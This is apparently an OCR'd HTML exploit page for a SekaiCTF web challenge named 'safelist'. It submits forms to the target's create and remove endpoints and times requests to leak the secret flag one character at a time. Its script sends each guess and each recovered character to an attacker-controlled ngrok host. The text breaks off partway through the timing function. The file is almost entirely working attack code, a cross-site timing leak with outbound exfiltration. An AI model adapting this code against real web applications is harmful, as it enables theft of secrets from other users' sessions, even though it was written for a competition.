 ```html
<!DOCTYPE html>
<html>
<!--
  The basic idea is to create a post with a lot of images which send request to "/" to block server-side nodejs main thread.
  If images are loading, the request to "/" is slower, otherwise faster.
  By using a well-crafted height, we can let note with "A" load image but note with "Z" not load.
  We can use fetch to measure the request time.
-->
<body>
  <button onclick="run()">start</button>
  <form id=f action="http://localhost:1234/create" method="POST" target="_blank">
    <input id=inp name="text" value="">
  </form>

  <form id=f2 action="http://localhost:1234/remove" method="POST" target="_blank">
    <input id=inp2 name="index" value="">
  </form>
  <script>
    let flag = 'SEKAI{'
    const TARGET = 'https://safelist.ctf.sekai.team'
    f.action = TARGET + '/create'
    f2.action = TARGET + '/remove'

    const sleep = ms => new Promise(r => setTimeout(r, ms))
    const send = data => fetch('http://server.ngrok.io?d='+data)
    const charset = 'abcdefghijklmnopqrstuvwxyz'.split('')

    // start exploit
    let count = 0
    setTimeout(async () => {
      let L = 0
      let R = charset.length - 1
      while( (R-L)>3 ) {
        let M = Math.floor((L + R) / 2)
        let c = charset[M]
        send('try_' + flag + c)
        const found = await testChar(flag + c)
        if (found) {
          L = M
        } else {
          R = M - 1
        }
      }

      // fallback to linear since I am not familiar with binary search lol
      for(let i=R; i>=L; i--) {
        let c = charset[i]
        send('try_' + flag + c)
        const found = await testChar(flag + c)
        if (found) {
          send('found: '+ flag+c)
          flag += c
          break
        }
      }
      
    }, 0)

    async function testChar(str) {
      return new Promise(resolve => {
          /*
            For 3350, you need to test it on your local to get this number.
```